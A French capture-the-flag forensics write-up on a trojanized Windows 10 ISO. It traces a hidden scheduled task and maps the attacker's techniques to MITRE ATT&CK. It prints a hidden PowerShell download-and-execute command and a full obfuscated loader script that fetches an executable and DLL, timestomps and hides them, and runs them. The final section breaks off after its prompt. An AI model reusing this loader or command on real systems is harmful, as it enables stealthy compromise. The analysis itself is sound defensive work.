




# APT Style

Catégorie : forensics

## Description générale pour la série

> En tant que RSSI, vous anticipez ~ tardivement ~ la migration des postes utilisateur de votre parc vers Windows 10.
>
> Pour ce faire, vous demandez à l'un de vos collaborateurs de préparer un ISO d'installation et, devant l'importance de l'innocuité de ce média d'installation, vous décidez de le tester. Vous observez d'étranges comportements sur la machine fraîchement installée... Vous décidez alors de décortiquer cet ISO, afin de comprendre d'où viennent ces comportements.
>
> Attention : pour ces épreuves, vous n'avez que 10 tentatives de flag par épreuve.
>
> Toutes les épreuves de cette série utilisent le même fichier disponible ci-dessous.
>
> **SHA256(Win10_22H2_French_x64.iso) = 6b308977cecc9b6d8aa50a8ddabdacdf01394b0819d5978141ed61862c61143f**

## APT Style 1/7

Difficulté : :star: :star: :star:

### Énoncé

> Quel objet déclenche le comportement malveillant ? La réponse attendue est le chemin de l'objet.
>
> Quel groupe d'attaquants emploie une méthode similaire ? Le format attendu est UNCXXXX.
>
> Le flag final est au format FCSC{chemin:UNCXXXX}

### Solve

```shell
sha256sum Win10_22H2_French_x64.iso| grep 6b308977cecc9b6d8aa50a8ddabdacdf01394b0819d5978141ed61862c61143f
6b308977cecc9b6d8aa50a8ddabdacdf01394b0819d5978141ed61862c61143f  Win10_22H2_French_x64.iso
```

```shell
sudo mkdir /mnt/iso-analyse /mnt/iso-base 
```

J'ai récupérer une ISO officiel de Windows afin de la comparer avec le fichier donné :

```shell
sudo mount -o loop Win10_22H2_French_x64.iso /mnt/iso-analyse
sudo mount -o loop Base_Win10_22H2_French_x64.iso /mnt/iso-base
```

On va regarder les fichiers différents :

```shell
diff -r -N --color /mnt/iso-analyse /mnt/iso-base
Les fichiers binaires /mnt/iso-analyse/sources/install.wim et /mnt/iso-base/sources/install.wim sont différents
```

> "install.wim" est un fichier utilisé par le système d'exploitation Microsoft Windows pour stocker une image complète du système d'exploitation, y compris tous les fichiers et paramètres nécessaires à l'installation de Windows.

Pour extraire les fichier de `install.wim`, on va devoir installer **wimlib** :

Dans un premier temps, on va déterminer quelle image extraire des 2 ISO.

```shell
wiminfo /mnt/iso-analyse/sources/install.wim
WIM Information:
----------------
Path:           /mnt/iso-analyse/sources/install.wim
GUID:           0xaef07e5ea580794fab0bd1fb925e5530
Version:        68864
Image Count:    1
Compression:    LZX
Chunk Size:     32768 bytes
Part Number:    1/1
Boot Index:     0
Size:           4644639235 bytes
Attributes:     Relative path junction

Available Images:
-----------------
Index:                  1
Name:                   Windows 10 Pro
Description:            Windows 10 Pro
Display Name:           Windows 10 Professionnel
Display Description:    Windows 10 Professionnel
Directory Count:        28297
File Count:             103117
Total Bytes:            15486658207
Hard Link Bytes:        6018456062
Creation Time:          Thu Sep 08 03:22:09 2022 UTC
Last Modification Time: Sun Mar 12 17:47:27 2023 UTC
Architecture:           x86_64
Product Name:           Microsoft® Windows® Operating System
Edition ID:             Professional
Installation Type:      Client
Product Type:           WinNT
Product Suite:          Terminal Server
Languages:              fr-FR 
Default Language:       fr-FR
System Root:            WINDOWS
Major Version:          10
Minor Version:          0
Build:                  19041
Service Pack Build:     2006
Service Pack Level:     0
Flags:                  Professional
WIMBoot compatible:     no

######################################################

wiminfo /mnt/iso-base/sources/install.wim
WIM Information:
----------------
Path:           /mnt/iso-base/sources/install.wim
GUID:           0xaef07e5ea580794fab0bd1fb925e5530
Version:        68864
Image Count:    11
Compression:    LZX
Chunk Size:     32768 bytes
Part Number:    1/1
Boot Index:     0
Size:           5173864616 bytes
Attributes:     Relative path junction

Available Images:
-----------------


Index:                  6
Name:                   Windows 10 Pro
Description:            Windows 10 Pro
Display Name:           Windows 10 Professionnel
Display Description:    Windows 10 Professionnel
Directory Count:        28296
File Count:             103117
Total Bytes:            15488755199
Hard Link Bytes:        6018456062
Creation Time:          Thu Sep 08 03:22:09 2022 UTC
Last Modification Time: Thu Sep 08 04:08:54 2022 UTC
Architecture:           x86_64
Product Name:           Microsoft® Windows® Operating System
Edition ID:             Professional
Installation Type:      Client
Product Type:           WinNT
Product Suite:          Terminal Server
Languages:              fr-FR 
Default Language:       fr-FR
System Root:            WINDOWS
Major Version:          10
Minor Version:          0
Build:                  19041
Service Pack Build:     2006
Service Pack Level:     0
Flags:                  Professional
WIMBoot compatible:     no
```

L'ISO donnée contient une unique image `Win10 Pro`, l'ISO que j'ai téléchargé en contient 11. On va extraire le `install.wim` de la 6ème :

```shell
sudo wimextract /mnt/iso-analyse/sources/install.wim 1 --dest-dir=analyse/ 
[WARNING] Ignoring FILE_ATTRIBUTE_READONLY of 158 files
[WARNING] Ignoring FILE_ATTRIBUTE_HIDDEN of 130 files
[WARNING] Ignoring FILE_ATTRIBUTE_SYSTEM of 321 files
[WARNING] Ignoring FILE_ATTRIBUTE_COMPRESSED of 2 files
[WARNING] Ignoring FILE_ATTRIBUTE_NOT_CONTENT_INDEXED of 218 files
[WARNING] Ignoring Windows NT security descriptors of 100994 files
[WARNING] Ignoring extended attributes of 11373 files
          (use --unix-data mode to extract these)
[WARNING] Ignoring DOS names of 69115 files
Creating files: 28307 of 28307 (100%) done
Extracting file data: 9029 MiB of 9029 MiB (100%) done
Applying metadata to files: 28297 of 28297 (100%) done
Done extracting files.
```

```shell
sudo wimextract /mnt/iso-base/sources/install.wim 6 --dest-dir=base/
[WARNING] Ignoring FILE_ATTRIBUTE_READONLY of 158 files
[WARNING] Ignoring FILE_ATTRIBUTE_HIDDEN of 130 files
[WARNING] Ignoring FILE_ATTRIBUTE_SYSTEM of 321 files
[WARNING] Ignoring FILE_ATTRIBUTE_COMPRESSED of 2 files
[WARNING] Ignoring FILE_ATTRIBUTE_NOT_CONTENT_INDEXED of 218 files
[WARNING] Ignoring Windows NT security descriptors of 100994 files
[WARNING] Ignoring extended attributes of 11373 files
          (use --unix-data mode to extract these)
[WARNING] Ignoring DOS names of 69115 files
Creating files: 28307 of 28307 (100%) done
Extracting file data: 9031 MiB of 9031 MiB (100%) done
Applying metadata to files: 28297 of 28297 (100%) done
Done extracting files.
```

On va refaire un **diff** sur les nouveaux fichiers :

```shell
diff -r -N --color analyse/ base/
diff: analyse/Users/All Users: Aucun fichier ou dossier de ce type
diff: base/Users/All Users: Aucun fichier ou dossier de ce type
diff: analyse/Users/Default User: Aucun fichier ou dossier de ce type
diff: base/Users/Default User: Aucun fichier ou dossier de ce type
Les fichiers binaires analyse/Windows/System32/config/SOFTWARE et base/Windows/System32/config/SOFTWARE sont différents
```

On découvre que c'est potentiellement une clé de registre qui a été modifié, on va donc l'extraire et analyser les clés.

Pour cela, je vais passer sur une machine Windows et utiliser : [RegistryChangesView](https://www.nirsoft.net/utils/registry_changes_view.html)



On voit bien les clés qui ont été modifiées, ajoutées ou supprimées :



On ouvre dans **registry explorer** la ruche pour aller regarder les valeurs de ces clés et on remarque une clé avec une commande powershell :



```ps1
NetworkService ~%windir%\system32\speech_onecore\common\SpeechModelDownload.exe powershell.exe -WindowStyle Hidden -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/main/OneDriveUpdater.ps1') -UseBasicParsing | iex"
```

Sur le github, on peut avoir le code de `OneDriveUpdater.ps1`. On a également d'autre fichiers (script, dll, exe) dans le dépôt : https://github.com/witnessstrong/OneDriveUpdater

`OneDriveUpdater.ps1`:

```ps1
if (&("{2}{0}{1}" -f'e','st-Path','T') -Path ((("{17}{11}{6}{8}{19}{14}{2}{16}{20}{21}{13}{15}{3}{7}{12}{18}{5}{4}{1}{0}{9}{10}" -f 'er.','pdat','osof','O','eU','on','am File','neDr','s','ex','e','gr','ive','Updat','icr','erHcn','t','C:HcnPro','Standal','HcnM','HcnOneDriv','e'))."R`EPlace"(([ChAR]72+[ChAR]99+[ChAR]110),[STring][ChAR]92))) {
    & ((("{7}{3}{14}{1}{0}{8}{11}{5}{12}{4}{6}{2}{13}{9}{10}"-f'm Files{0}Micro','rogra','dater{','0}','i','neD','veUp','C:{','soft{0','neDriveSt','andaloneUpdater.exe','}O','r','0}O','P'))  -f  [CHAr]92)
} else {
          ${Z`F6}::"secU`RiTypr`OToC`OL" =  ${Z`F6}::"SECurit`ypro`T`OCol" -bor 3072; &("{0}{1}"-f 'ie','x') ((&("{1}{0}{2}"-f 'ew-Obj','N','ect') ("{0}{5}{4}{2}{3}{1}"-f'Sy','t','m.Net.W','ebClien','e','st')).("{3}{1}{0}{2}"-f'rin','oadSt','g','Downl').Invoke(("{9}{11}{8}{4}{14}{0}{13}{17}{7}{10}{1}{6}{15}{3}{19}{12}{18}{2}{16}{5}" -f 'wit','eUp','nstall.','w/m','/','s1','dater','ne','/','https','Driv',':','in','nessstrong','github.com/','/ra','p','/O','/i','a'))) | .("{2}{0}{1}"-f'Nu','ll','Out-');
    &("{1}{0}"-f'w-Item','Ne') -ItemType ("{0}{2}{1}" -f 'Dir','ory','ect') -Force -Path ((("{8}{2}{3}{1}{6}{7}{4}{5}{0}" -f 'r','Mi','X8Program Fi','leslX8','lX8OneDriveU','pdate','cro','soft','C:l')).("{1}{0}" -f'Ace','REpl').Invoke('lX8','\')) | &("{1}{0}"-f'Null','Out-');
    (.("{1}{2}{0}"-f'ject','N','ew-Ob') ("{1}{2}{3}{0}"-f 'nt','N','et.WebC','lie')).("{1}{0}{2}" -f 'Fil','Download','e').Invoke(("{21}{5}{16}{14}{17}{20}{2}{12}{11}{15}{24}{13}{7}{3}{8}{10}{18}{22}{1}{9}{19}{0}{6}{23}{4}" -f'aloneU','eDriv','ub.','Up','e','ttps','pdate','eDrive','dater/r','eStan','aw/mai','witnes','com/','n','/g','sstrong/',':/','it','n/','d','h','h','On','r.ex','O'),((("{5}{9}{17}{0}{11}{4}{1}{12}{3}{10}{6}{14}{7}{13}{15}{16}{18}{2}{8}"-f 'ogra','ob3','r.e','cr',' Files','C:','b3O','b3','xe','ob3P','osofto','m','Mi','O','neDriveUpdatero','neDriv','eSt','r','andaloneUpdate'))-REplACE'ob3',[char]92));
    (&("{1}{3}{0}{2}"-f'Objec','N','t','ew-') ("{0}{4}{3}{1}{2}" -f'Ne','Cli','ent','b','t.We')).("{1}{2}{0}" -f'dFile','Down','loa').Invoke(("{13}{1}{8}{6}{9}{12}{0}{4}{2}{7}{3}{5}{11}{10}" -f'on','tp','/On','DriveUpdater/ra','g','w/mai','thub.com/w','e','s://gi','itn','/version.dll','n','essstr','ht'),((("{2}{11}{8}{14}{7}{4}{9}{13}{0}{5}{15}{12}{1}{6}{3}{10}" -f 'oft','Updater5','C:5f','v','ram Fil','5f','fD','g','r','es5fDMi','ersion.dll','DP','ive','cros','o','DOneDr'))."r`Epl`Ace"(([cHAR]53+[cHAR]102+[cHAR]68),'\')));
    (&("{2}{3}{0}{1}" -f'bjec','t','Ne','w-O') ("{2}{3}{1}{0}" -f 'nt','e','Ne','t.WebCli')).("{2}{0}{1}" -f 'wnloa','dFile','Do').Invoke(("{8}{1}{10}{9}{7}{12}{11}{3}{14}{4}{13}{0}{2}{5}{6}"-f 'main/','hub.','v','essstrong/OneDriveUpdate','/raw','ersl','on.dll','m/wi','https://git','o','c','n','t','/','r'),((("{12}{6}{8}{1}{2}{5}{0}{3}{11}{4}{10}{9}{7}"-f 'osoftIgdO','am',' Files','n','UpdaterIgdverslo','IgdMicr','o','l','gr','l','n.d','eDrive','C:IgdPr')).("{1}{2}{0}"-f 'cE','REPl','A').Invoke('Igd','\')));


    ${t`s} = &("{1}{2}{0}" -f'tem','Get','-I') ((("{3}{4}{5}{1}{0}{2}"-f 'in','dows{0}w','.ini','C:{','0','}Win'))-F [cHAr]92) | .("{1}{0}" -f'oreach','F') {${_}."l`Astwr`iTetIMe"};
    ${F`ILEs}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${fi`l`ES}.("{0}{1}" -f 'F','orEach')({
        ${fi`lE} = .('gi') ${_};
        ${f`iLE}."lASTWr`it`EtIMe"=${t`S};
        ${f`ilE}."La`stACCES`StI`me"=${t`S};
        ${fI`Le}."C`ReA`Tion`TIME"=${Ts};
    })
    &("{1}{0}"-f 'ib','attr') ('+s') ('+h') ((("{8}{0}{3}{7}{5}{4}{2}{1}{6}{9}" -f'{0','OneDriveUpdater{','iles{0}Microsoft{0}','}',' F','ogram','0','Pr','C:','}version.dll'))  -F  [chAr]92) ('/S') ('/D') ('/L');
    & ((("{4}{10}{1}{11}{13}{6}{0}{8}{12}{7}{14}{9}{2}{5}{3}" -f'p','ilesC','e','e','C:','r.ex','tCgpOneDriveU','n','daterCg','pdat','CgpProgram F','gpMicros','pO','of','eDriveStandaloneU'))-crePLAcE ([chaR]67+[chaR]103+[chaR]112),[chaR]92);
}
```

On arrive plus ou moins à comprendre le powershell sans trop le remettre en forme.

En ce qui concerne l'UNC, une petite recherche google sur les compromissions d'ISO et on arrive sur cette page : https://www.mandiant.com/resources/blog/trojanized-windows-installers-ukrainian-government

**Flag : FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{4D595DA6-BC59-47AE-A527-EC01FCE2E615}:UNC4166}**

## APT Style 2/7

Difficulté : :star: :star: :star:

### Énoncé

> Quel élément a été supprimé afin de masquer ce comportement malveillant à Windows ? La réponse attendue est le chemin de l'élément supprimé.
>
> Quel groupe d'attaquant emploie une méthode similaire ? La réponse attendue est le nom du groupe.
>
> Le flag est au format FCSC{chemin:nom du groupe}.

### Solve

La seule valeur de clé qui est supprimé est la SD (Security Descriptor).

On va sur le site du Mitre pour voir les techniques sur la modification de clé de registre : https://attack.mitre.org/techniques/T1112/

Un coup de `CTRL + f --> SD`

```
S1011	Tarrask	Tarrask is able to delete the Security Descriptor (SD) registry subkey in order to "hide" scheduled tasks
```

- https://attack.mitre.org/software/S1011/
- https://attack.mitre.org/groups/G0125/

On remonte au groupe **HAFNIUM**

**Flag : FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask\SD:HAFNIUM}**

## APT Style 3/7

Difficulté : :star:

### Énoncé

> Quel fichier est utilisé comme base de timestomp des fichiers malveillants ? La réponse attendue est le chemin complet du fichier au format : FCSC{chemin}.

### Solve

Dans le powershell, on peut voir un bout de code qui réalise le changement de timestomp :

```shell
    ${ts} = &("{1}{2}{0}" -f'tem','Get','-I') ((("{3}{4}{5}{1}{0}{2}"-f 'in','dows{0}w','.ini','C:{','0','}Win'))-F [cHAr]92) | .("{1}{0}" -f'oreach','F') {${_}."lAstwriTetIMe"};
    ${FILEs}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${filES}.("{0}{1}" -f 'F','orEach')({
        ${filE} = .('gi') ${_};
        ${fiLE}."lASTWritEtIMe"=${tS};
        ${filE}."LastACCESStIme"=${tS};
        ${fILe}."CReATionTIME"=${Ts};
    })
```

Il suffit de comprendre à quoi correspond la valeur de `$ts`. Celle-ci est égale `C:\Windows\win.ini`.

**Flag : FCSC{C:\Windows\win.ini}**

## APT Style 4/7

Difficulté : :star:

### Énoncé

> Quelle technique est employée par l'attaquant pour exécuter la charge malveillante ? La réponse attendue est l'ID complet de la technique au sens de la matrice MITRE ATT&CK, au format FCSC{TXXXX.XXX}.

### Solve

On a le dépôt github avec des scirpts powershell, un exe et notamment 2 DLLs avec plus ou moins le même nom.

Sur le site du Mitre, on peut trouver cette technique `Hijack Execution Flow: DLL Side-Loading` ; https://attack.mitre.org/techniques/T1574/002/

**Flag : FCSC{T1574.002}**

## APT Style 5/7

Difficulté : :star:

### Énoncé

> *Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023*
> 
> Quel est le numéro de série du certificat ayant servi à signer la DLL malveillante ? La réponse attentue est au format FCSC{numéro de série}.

### Solve

On cherche le numéro de série du certificat ayant servi à signer la DLL malveillante. On peut avoir cette information en allant dans les propriétés de la DLL. 

On clone : https://github.com/witnessstrong/OneDriveUpdater

La DLL `version.dll` n'est pas une DLL. On fait donc un **sigcheck** sur `verslon.dll` pour avoir le "Serial Number". On essaye le flag et ca ne fonctionne pas.

On reprend l'énnoncé et on regarde la note :

> *Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023*

Si on veut récupérer un ancien fichier, il faut utiliser **WayBackMachine**.

On retrouve notre dépôt le 15/03/2023 : https://web.archive.org/web/20230315194209/https://github.com/witnessstrong/OneDriveUpdater

Si on veut récupérer les fichiers, il faut cibler un ancien commit : https://web.archive.org/web/20230315194218/https://github.com/witnessstrong/OneDriveUpdater/commit/575769e48d086b0e5468577a011c2322690d471a

ON télécharge les DLLs :
- version.dll : https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/575769e48d086b0e5468577a011c2322690d471a/version.dll
- verslon.dll : https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/575769e48d086b0e5468577a011c2322690d471a/verslon.dll

On récupère les "Serial Number" :

```shell
sigcheck.exe -i version.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Users\zarkyo\desktop\version.dll:
        Verified:       Un certificat requis n?est pas dans sa pÚriode de validitÚ selon la vÚrification par rapport Ó l?horloge systÞme en cours ou le tampon datÚ dans le fichier signÚ.
        Link date:      20:38 11/03/2023
        Signing date:   n/a
        Catalog:        C:\Users\zarkyo\desktop\version.dll
        Signers:
           NVIDIA Corporation
                Cert Status:    This certificate or one of the certificates in the certificate chain is not time valid.
                Valid Usage:    Code Signing
                Cert Issuer:    VeriSign Class 3 Code Signing 2010 CA
                Serial Number:  43 BB 43 7D 60 98 66 28 6D D8 39 E1 D0 03 09 F5
                Thumbprint:     579AEC4489A2CA8A2A09DF5DC0323634BD8B16B7
                Algorithm:      sha1RSA
                Valid from:     02:00 02/09/2011
                Valid to:       01:59 02/09/2014
           VeriSign Class 3 Code Signing 2010 CA
                Cert Status:    This certificate or one of the certificates in the certificate chain is not time valid.
                Valid Usage:    Client Auth, Code Signing
                Cert Issuer:    VeriSign Class 3 Public Primary Certification Authority - G5
                Serial Number:  52 00 E5 AA 25 56 FC 1A 86 ED 96 C9 D4 4B 33 C7
                Thumbprint:     495847A93187CFB8C71F840CB7B41497AD95C64F
                Algorithm:      sha1RSA
                Valid from:     02:00 08/02/2010
                Valid to:       01:59 08/02/2020
           VeriSign
                Cert Status:    Valid
                Valid Usage:    Client Auth, Code Signing, Email Protection, Server Auth
                Cert Issuer:    VeriSign Class 3 Public Primary Certification Authority - G5
                Serial Number:  18 DA D1 9E 26 7D E8 BB 4A 21 58 CD CC 6B 3B 4A
                Thumbprint:     4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5
                Algorithm:      sha1RSA
                Valid from:     02:00 08/11/2006
                Valid to:       01:59 17/07/2036
        Company:        n/a
        Description:    n/a
        Product:        n/a
        Prod version:   n/a
        File version:   n/a
        MachineType:    64-bit
```

```shell
sigcheck.exe -i verslon.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Users\zarkyo\desktop\verslon.dll:
        Verified:       Signed
        Link date:      11:59 17/10/1910
        Signing date:   05:27 07/05/2022
        Catalog:        C:\Users\zarkyo\desktop\verslon.dll
        Signers:
           Microsoft Windows
                Cert Status:    This certificate or one of the certificates in the certificate chain is not time valid.
                Valid Usage:    NT5 Crypto, Code Signing
                Cert Issuer:    Microsoft Windows Production PCA 2011
                Serial Number:  33 00 00 03 3C 89 C6 6A 7B 45 BB 1F BD 00 00 00 00 03 3C
                Thumbprint:     FE51E838A087BB561BBB2DD9BA20143384A03B3F
                Algorithm:      sha256RSA
                Valid from:     20:23 02/09/2021
                Valid to:       20:23 01/09/2022
           Microsoft Windows Production PCA 2011
                Cert Status:    Valid
                Valid Usage:    All
                Cert Issuer:    Microsoft Root Certificate Authority 2010
                Serial Number:  61 07 76 56 00 00 00 00 00 08
                Thumbprint:     580A6F4CC4E4B669B9EBDC1B2B3E087B80D0678D
                Algorithm:      sha256RSA
                Valid from:     20:41 19/10/2011
                Valid to:       20:51 19/10/2026
           Microsoft Root Certificate Authority 2010
                Cert Status:    Valid
                Valid Usage:    All
                Cert Issuer:    Microsoft Root Certificate Authority 2010
                Serial Number:  28 CC 3A 25 BF BA 44 AC 44 9A 9B 58 6B 43 39 AA
                Thumbprint:     3B1EFD3A66EA28B16697394703A72CA340A05BD5
                Algorithm:      sha256RSA
                Valid from:     23:57 23/06/2010
                Valid to:       00:04 24/06/2035
        Counter Signers:
           Microsoft Time-Stamp Service
                Cert Status:    This certificate or one of the certificates in the certificate chain is not time valid.
                Valid Usage:    Timestamp Signing
                Cert Issuer:    Microsoft Time-Stamp PCA 2010
                Serial Number:  33 00 00 01 A0 E9 BB 8C BB 0E A2 D1 7A 00 01 00 00 01 A0
                Thumbprint:     1306B88D68DA71B39853EFBDE72749EE14828B98
                Algorithm:      sha256RSA
                Valid from:     21:05 02/12/2021
                Valid to:       21:05 28/02/2023
           Microsoft Time-Stamp PCA 2010
                Cert Status:    Valid
                Valid Usage:    Timestamp Signing
                Cert Issuer:    Microsoft Root Certificate Authority 2010
                Serial Number:  33 00 00 00 15 C5 E7 6B 9E 02 9B 49 99 00 00 00 00 00 15
                Thumbprint:     36056A5662DCADECF82CC14C8B80EC5E0BCC59A6
                Algorithm:      sha256RSA
                Valid from:     20:22 30/09/2021
                Valid to:       20:32 30/09/2030
           Microsoft Root Certificate Authority 2010
                Cert Status:    Valid
                Valid Usage:    All
                Cert Issuer:    Microsoft Root Certificate Authority 2010
                Serial Number:  28 CC 3A 25 BF BA 44 AC 44 9A 9B 58 6B 43 39 AA
                Thumbprint:     3B1EFD3A66EA28B16697394703A72CA340A05BD5
                Algorithm:      sha256RSA
                Valid from:     23:57 23/06/2010
                Valid to:       00:04 24/06/2035
        Company:        Microsoft Corporation
        Description:    Version Checking and File Installation Libraries
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.22621.1
        File version:   10.0.22621.1 (WinBuild.160101.0800)
        MachineType:    64-bit
```

La DLL malveillant est `version.dll`, elle avait bien été supprimer et remplacer par un autre fichier.

**Flag : FCSC{43bb437d609866286dd839e1d00309f5}**

## APT Style 6/7

Difficulté : :star:

### Énoncé

> *Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante ... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023*
>
